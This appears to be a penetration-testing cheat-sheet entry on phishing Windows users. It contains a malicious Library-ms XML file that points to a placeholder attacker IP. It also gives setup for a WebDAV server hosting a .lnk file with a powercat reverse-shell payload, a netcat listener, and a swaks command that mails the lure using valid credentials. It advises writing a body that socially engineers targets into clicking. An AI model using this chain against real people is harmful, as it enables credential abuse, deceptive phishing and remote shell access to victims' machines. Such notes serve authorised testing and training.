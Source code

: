 # Phishing

With a valid set of credentials for a mailserver of a domain, we can use swaks to send an email from an account.

The prep for this:

`config.Library-ms`:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://${ATTACKER_IP}</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

make a link-file with the powercat payload.

Setup a `wsgidav` listener (make the root dir beforehand):

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav/
```

place the .link file in `./webdav` and write a body and header to social engineer the target to clicking the .link file in the `./webdav` folder.

have a `nc` listener ready on an approriate port.

When clicking the attacked `config.Library-ms` file on a windows machine, it will make a remote connection to the `wsgidav`-server and show it as if it's a local explorer.
Then, when the target clicks the link, we spawn a shell.


```
sudo swaks -t ${TARGET_1} -t ${TARGET_2} \
--from ${USER@DOMAIN} --attach @config.Library-ms \
--server ${MAIL_SERVER_IP} --body @body.txt \ 
--header "Subject: ${HEADER}" --suppress-data -ap
```
